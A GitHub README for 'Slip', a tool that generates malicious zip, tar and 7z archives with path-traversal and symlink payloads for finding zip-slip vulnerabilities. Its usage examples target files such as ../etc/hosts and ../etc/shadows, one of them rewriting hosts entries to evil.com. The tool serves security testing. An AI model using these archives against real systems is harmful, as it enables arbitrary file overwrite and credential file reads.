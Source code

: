 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar** and **7z** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports multiple payloads of different types (paths/symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different "depths" 
- Supports the usage of custom "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to create the archive (dictionary provided 😉)

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive.
  --file-content TEXT             Content of the files in the archive, if not
                                  set a random string will be used.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.
```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" archive
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" archive
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" out
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with an explicit path and an explicit file content:
```
python3 slip.py --archive-type 7z --compression bzip2 --paths "../etc/hosts" --file-content "127.0.0.1    evil.com" archive
```

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it uses A LOT of payloads, so the result is unpredictable. Use with caution.
